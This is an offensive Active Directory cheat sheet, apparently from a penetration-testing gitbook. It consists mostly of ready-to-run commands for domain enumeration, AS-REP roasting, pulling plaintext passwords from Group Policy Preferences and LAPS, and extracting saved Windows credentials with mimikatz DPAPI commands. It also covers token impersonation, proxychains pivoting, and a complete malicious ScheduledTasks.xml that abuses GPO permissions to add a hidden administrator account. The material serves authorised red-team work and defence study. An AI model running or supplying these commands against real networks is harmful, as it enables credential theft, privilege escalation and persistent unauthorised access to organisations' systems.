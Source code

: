 ## **More fun in AD**

Below are a collection of items to run within a new environment to check for

In addition the bloodhound \(\(Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV\) and basic net enumeration \(net view, computers, dclist, domain\_trusts\) try looking for the following:

Next try running

Powerup

```
powershell-import /opt/PowerSploit/Privesc/PowerUp.ps1
powershell Invoke-AllChecks
```

as well as hamrj0y's powerview tips

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

**Group functions**

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Management Users"`Gets members of users who can use WinRM on a specific machine.

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Desktop Users"`Gets members of users who can RDP to a specific machine.

**Determine if kerberos pre-auth is not set**

```
#With Powerview

# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
Invoke-ASREPRoast -Verbose | fl
```

```
#Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
powershell-import /opt/PowerSploit/Exfiltration/Get-GPPPassword.ps1
powershell Get-GPPPassword

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
```

Note: Great cheat sheets for powerview, powerup,powersploit, etc.

```
https://github.com/HarmJ0y/CheatSheets
```

Note: A great tool for cracking hashes is kwprocessor

```
./kwp -z basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > largekwpshift.txt
```

**LAPS:**

Note: This access is not currently in Bloodhound but is planned for a future update

```
#Import the script into memory
powershell-import /opt/LAPSToolkit/LAPSToolkit.ps1

#Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute
powershell Find-LAPSDelegatedGroups

#Parses through ExtendedRights for each AD computer with LAPS enabled and looks for which group has read access and if any user has "All Extended Rights".
powershell Find-AdmPwdExtendedRights 

#Displays all computers with LAPS enabled, password expriation, and password if user has access
powershell Get-LAPSComputers
```

[https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/](https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/)

[https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps](https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps)

**Token Notes:**

You can create a token and pass to obtain a shell when not in elevated process. Additionally, only psexec/psexec\_psh work with make\_token, not winrm or wmi

```
make_token .\Administrator P@ssw0rd
ls \\dc01\c$
```

**Credential Manager & DPAPI:**

If assume / know the machine is used for RDP, there might be saved credentials.

```
shell vaultcmd /listcreds:"Windows Credentials" /all
```

These credentials are stored within the users directory,:

```
powershell Get-ChildItem C:\Users\<User>\AppData\Local\Microsoft\Credentials\ -Force
```

Take the output from above command to get details

```
mimikatz dpapi::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Credentials\<File Name from above command>
```

Get the Masterkey from cache

```
mimikatz !sekurlsa::dpapi
```

Obtain password

```
mimikatz dpapi::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Credentials\<File Name from earlier command> /masterkey:<key from above command>
```

**Proxychains & RDP:**

```
beacon> socks 1337
nano /etc/proxychains.conf socks4 127.0.0.1 1337
proxychains xfreerdp /u:<username> /v:<IPADDRESS>
```

**GPO Permissions:**

https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/

```
powershell-import /opt/Empire/data/module_source/situational_awareness/network/powerview.ps1

#this outputs the GPOs applied to the WKS01 system
powershell Get-NetGPO -ComputerName WKS01
```

GPOs can also be viewed in blooodhound now, first type system name in the search field, click node then look at effective inbound GPOs, if one is hanging off from the rest then look into it by noting the GUID and then looking at the ouput of the poweshell command above 

```
powershell Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```

note the applicable  gpcfilesyspath and then determine what you can edit and possibly upload a malicious ScheduledTasks.xml

Example Malicious XML

```
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}">
	<ImmediateTaskV5 clsid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}" name="OLDGPO" image="0" changed="2016-03-20 12:50:28" uid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}" userContext="0" removePolicy="0">
		<Properties action="C" name="OLDGPO" runAs="NT AUTHORITY\System" logonType="S4U">
			<Task version="1.3">
				<RegistrationInfo>
					<Author>NT AUTHORITY\System</Author>
					<Description></Description>
				</RegistrationInfo>
				<Principals>
					<Principal id="Author">
						<UserId>NT AUTHORITY\System</UserId>
						<RunLevel>HighestAvailable</RunLevel>
						<LogonType>S4U</LogonType>
					</Principal>
				</Principals>
				<Settings>
					<IdleSettings>
						<Duration>PT10M</Duration>
						<WaitTimeout>PT1H</WaitTimeout>
						<StopOnIdleEnd>true</StopOnIdleEnd>
						<RestartOnIdle>false</RestartOnIdle>
					</IdleSettings>
					<MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
					<DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
					<StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
					<AllowHardTerminate>false</AllowHardTerminate>
					<StartWhenAvailable>true</StartWhenAvailable>
					<AllowStartOnDemand>false</AllowStartOnDemand>
					<Enabled>true</Enabled>
					<Hidden>true</Hidden>
					<ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
					<Priority>7</Priority>
					<DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
					<RestartOnFailure>
						<Interval>PT15M</Interval>
						<Count>3</Count>
					</RestartOnFailure>
				</Settings>
				<Actions Context="Author">
					<Exec>
						<Command>powershell</Command>
						<Arguments>-c "net user coolguy P@ssw0rd1234 /add; net localgroup administrators torch /add"</Arguments>
					</Exec>
				</Actions>
				<Triggers>
					<TimeTrigger>
						<StartBoundary>%LocalTimeXmlEx%</StartBoundary>
						<EndBoundary>%LocalTimeXmlEx%</EndBoundary>
						<Enabled>true</Enabled>
					</TimeTrigger>
				</Triggers>
			</Task>
		</Properties>
	</ImmediateTaskV5>
</ScheduledTasks>





```



**Resources:**

[https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/](https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/)

[http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/](https://legacy.gitbook.com/book/d00mfist1/ctf/edit#)

[https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powerview.html](https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powerview.html)

